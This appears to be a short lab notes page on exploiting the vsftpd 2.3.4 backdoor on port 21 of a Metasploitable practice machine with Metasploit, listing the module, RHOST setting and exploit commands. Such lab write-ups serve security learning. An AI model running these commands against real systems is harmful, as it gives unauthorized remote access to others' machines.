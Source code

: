 ```yaml
---
description: exploiting vulnerabilities
---
```


# Metasploit

Load the metasploit framework using `msfconsole`

### exploiting open port 21 in metasploitable using metasploit

we search the port 21 vulnerability on google, stumbled on rapid7 (metasploit) website and get a guide to perform this attack.

```bash
use exploit/unix/ftp/vsftpd_234_backdoor     # launching the attack
```

```bash
show options    # shows the available options for the vulnerablity.
set RHOST 192.168.81.132    # we use 'set' to set the 'RHOST' to the correct ip addr.
```

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 03-00-37.png" alt=""><figcaption><p>after executing the set RHOST cmd</p></figcaption></figure>

after setting the RHOST and RPORT, type `exploit` to execute the attack, we now have access to the machine.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 03-01-19.png" alt=""><figcaption><p><code>exploit</code></p></figcaption></figure>









